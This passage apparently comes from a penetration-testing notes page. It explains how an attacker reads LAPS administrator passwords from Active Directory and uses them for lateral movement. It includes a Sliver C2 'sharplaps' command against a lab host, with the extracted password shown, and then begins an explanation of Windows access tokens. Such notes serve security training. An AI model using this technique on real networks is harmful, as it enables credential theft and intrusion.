    - **Using AD Tools**: The password can also be retrieved using Active Directory Users and Computers (ADUC) if you have the necessary permissions to view the attribute.

#### 4. **Escalate Privileges Using the LAPS Password**

   - Once the local Administrator password is retrieved, an attacker can use it to gain administrative access to the target machine.
   - This access can be leveraged for further lateral movement within the network, privilege escalation, or persistence.



### Sliver Laps example

```bash
[server] sliver (ALERT_HEATER) > sharplaps /host:192.168.228.5 /user:admin /pass:lab

[*] sharplaps output:

   _____ __                     __    ___    ____  _____
  / ___// /_  ____ __________  / /   /   |  / __ \/ ___/
  \__ \/ __ \/ __ `/ ___/ __ \/ /   / /| | / /_/ /\__ \ 
 ___/ / / / / /_/ / /  / /_/ / /___/ ___ |/ ____/___/ / 
/____/_/ /_/\__,_/_/  / .___/_____/_/  |_/_/    /____/  
                     /_/                             

[+] Using the following credentials
Host: LDAP://192.168.228.5:389
User: admin
Pass: lab

[+] Extracting LAPS password from LDAP
Machine  : APPSRV01$
Password : g49UNA5uGo.4o)

```


## Access Tokens

Windows access tokens are a fundamental part of the Windows security model, representing the security context of a user or process. Understanding how they work is crucial for both legitimate administration and in the context of attacks, such as privilege escalation.

### What Are Windows Access Tokens?

1. **Access Tokens**:
   - An access token is a data structure that contains the security information for a login session. This includes the user's identity, privileges, group memberships, and other security-related information.
   - Every process and thread in Windows has an associated access token that determines its permissions and what resources it can access.

2. **Types of Tokens**:
   - **Primary Token**: Associated with a user’s session and is used by the user’s processes. It’s created when a user logs on.
   - **Impersonation Token**: Allows a process to "impersonate" the security context of another user, typically used in scenarios like client-server communications.
